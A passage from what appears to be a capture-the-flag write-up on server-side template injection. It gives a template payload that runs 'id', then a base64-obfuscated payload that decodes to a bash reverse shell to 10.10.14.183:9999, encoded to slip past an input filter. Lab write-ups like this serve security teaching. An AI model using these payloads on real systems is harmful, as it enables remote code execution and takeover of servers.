 We can see the output of the id command using the following payload as a name :

{% raw %}
```js
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
{% endraw %}

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231112130122.png>)

After many tries to find the exact payload to get a revshell, since the field input doesn't accept `< and >` as inputs, I was able to construct a valid one by base64 encoding my payload :

{% raw %}
```js
{{request.application.__globals__.__builtins__.__import__('os').popen('echo "YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xODMvOTk5OSAwPiYxJw==" | base64 -d | bash').read()}}
```
{% endraw %}
